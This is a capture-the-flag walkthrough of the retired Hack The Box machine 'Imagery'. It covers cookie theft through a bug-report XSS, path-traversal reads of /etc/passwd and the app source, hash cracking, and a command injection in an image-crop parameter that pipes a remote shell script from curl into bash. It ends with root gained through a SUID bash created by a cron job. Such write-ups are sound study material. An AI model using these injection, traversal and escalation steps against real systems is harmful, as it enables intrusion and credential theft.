



# Hack The Box - Imagery



Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Imagery**. This machine starts with an XSS bug report workflow that leaks an admin session, then moves through local file read and source disclosure to recover credentials and application logic. From there, a command injection in an image transform feature gives me a foothold, and a cron-based backup tool is abused to escalate to root.

## Reconnaissance

I started with a full port scan to see what was exposed on the target.

```bash
nmap -sS -A -p- -o nmap 10.10.11.x
```

The scan showed SSH and a Python web server:

```text
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
```

The web app was an image gallery, and it allowed account creation, image uploads, and a bug report form in the footer.




## Initial Access

### Bug Report XSS

The bug report form looked promising because it might be reviewed by an administrator, and the session cookie did **not** have the HttpOnly flag set. That meant an XSS payload could exfiltrate the cookie directly.

I submitted this payload in the bug details field:

```html

```

After some time, my server received a request containing the admin session cookie.

Once I applied the stolen cookie to my browser and refreshed the page, I was logged in as `admin` and could access the Admin Panel.



## Source Disclosure

### Local File Read

The admin panel allowed downloading a log file for each user, and the filename was passed directly in a GET parameter. That made the download function a good candidate for path traversal, so I used it to read files like `/etc/passwd`.

From there, I pulled the command line of the running process using:

```text
/proc/self/cmdline
```

That showed the code was running from:

```text
/home/web/web/env/bin/python app.py
```

So I fetched the application source with:

```text
/proc/self/cwd/app.py
```

The source showed the Flask app configuration, including:

- `SESSION_COOKIE_HTTPONLY = False`.
- Several blueprints for auth, upload, edit, admin, and misc features.
- Initialization logic that created log files for each user.

I then inspected `config.py`, which revealed the data store path:

```text
DATA_STORE_PATH = 'db.json'
```

That was even better, because the database was just a JSON file.

### Database Secrets

Reading `db.json` exposed the configured users and their hashes. Besides `admin@imagery.htb`, there was also `testuser@imagery.htb`, and the MD5 hash for that account cracked quickly to:

```text
iambatman
```

## Command Injection

### Image Transform Abuse

After logging in as `testuser`, I uploaded a sample image and noticed that the image modification controls were only enabled for that account. The source file `api_edit.py` confirmed this, and it also showed a dangerous crop path:

```python
command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```

Because that command used `shell=True` and directly interpolated parameters, it was vulnerable to command injection.

I proxied the crop request through Burp and injected a reverse shell in the `height` parameter:

```json
{
  "imageId":"...",
  "transformType":"crop",
  "params":{
    "x":0,
    "y":0,
    "width":1,
    "height":"`curl http://10.10.10.10/shell.sh|bash`"
  }
}
```

That immediately gave me a shell as `web`.

## Privilege Escalation

### Backup Archive

The `web` user did not have any sudo rights, so I enumerated the filesystem for clues. In `/var/backup`, I found an AES-encrypted ZIP archive:

```text
web_20250806_120723.zip.aes
```

Using `file`, I confirmed it was created by `pyAesCrypt`. I transferred it to my host and brute-forced the encryption password with a small script. The password turned out to be:

```text
bestfriends
```

After decrypting the archive, I extracted the web application source and database data. Inside `db.json`, I found another user:

```text
mark@imagery.htb
```

The corresponding hash cracked to:

```text
supersmash
```

I used that password to switch to `mark`.

### Charcol Abuse

The `mark` user could run `/usr/local/bin/charcol` with sudo. The help output showed it was a backup tool with an interactive shell and cron job support. One option stood out:

```text
-R, --reset-password-to-default
```

I used that to reset the application password mode and then entered the interactive shell. Inside the `auto` command set, there was a cron feature that accepted arbitrary shell commands without validating them.

I added a cron job that copied `/bin/bash` to `~/bash` and set the SUID bit:

```bash
bash -c 'cp /bin/bash /home/mark/bash; chmod u+s /home/mark/bash'
```

The job ran every minute, and once the SUID bash appeared, I launched it with:

```bash
~/bash -p
```

That gave me a root shell.

## Attack Path

- **Scan the host** — identify SSH and the web service on port 8000.
- **Exploit bug report XSS** — exfiltrate the admin session cookie.
- **Access the admin panel** — become `admin`.
- **Traverse files** — read `/etc/passwd`, `app.py`, `config.py`, and `db.json`.
- **Recover credentials** — crack `testuser`’s MD5 hash to `iambatman`.
- **Trigger command injection** — abuse the crop transformation in `api_edit.py`.
- **Get a shell** — land as `web`.
- **Decrypt the backup** — brute-force the AES archive password `bestfriends`.
- **Crack another hash** — recover `mark`’s password `supersmash`.
- **Abuse Charcol** — use cron job support to create a SUID bash.
- **Escalate to root** — run `bash -p` and read the final flag.
